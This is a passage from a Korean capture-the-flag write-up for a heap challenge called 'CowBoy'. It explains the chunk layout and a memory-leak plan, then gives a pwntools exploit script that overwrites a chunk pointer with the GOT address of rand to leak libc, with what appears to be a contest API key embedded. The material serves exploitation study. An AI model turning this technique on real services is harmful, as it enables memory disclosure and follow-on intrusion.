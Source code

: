 이 상태에서 `func_alloc`을 하면 `2222222\n`이 그대로 들어가있는걸 볼 수 있어요.

청크 생긴건 대충 [chunk_size][string_addr][next_chunk_addr][?] 이렇게 예상할 수 있어요.

이 상태에서 `func_show`를 해서 두 번째 청크까지 정상적으로 출력하고 `\x0a32323232323232`에서 `core dumped`가 발생했다고 예상할 수 있어요.

만약 정상적인 주소를 적으면 그 안에 있는 값을 출력해줘요. 저는 이걸로 memory leak을 할거에요.

```python
import json
from pwn import *
#context.log_level = "debug"

HOST = "localhost"
#HOST = "cowboy.eatpwnnosleep.com"
PORT = 4444
#PORT = 14697

############################################

s = remote(HOST, PORT)
a = {
    "apikey" : "5b88ada575f654923442e90a4d3e6bef7ba03ce02a3bc0dec0a0fbbe17d8445f"
	}
if(HOST != "localhost"):
	s.send(json.dumps(a).encode())

elf = ELF("./CowBoy")
libc = ELF("/home/rotles98/libc.so.6")
#libc = ELF("./CowBoy_libc")
pause()

############################################

rand_got = elf.got["rand"]
rand_off = libc.symbols["rand"]

############################################

def func_alloc(size):
	s.sendline("1")
	s.sendline(str(size))

def func_free(bin_num, chunk_num):
	s.sendline("2")
	s.sendline(str(bin_num))

def func_show():
	s.sendline("3")

def func_fill(bin_num, chunk_num, data):
	s.sendline("4")
	s.sendline(str(bin_num))
	s.sendline(str(chunk_num))
	s.send(str(data))

def func_exit():
	s.sendline("5")

func_alloc("2")
func_fill("0", "0", "11111111" + p64(rand_got))
func_alloc("2")

func_show()
func_exit()

```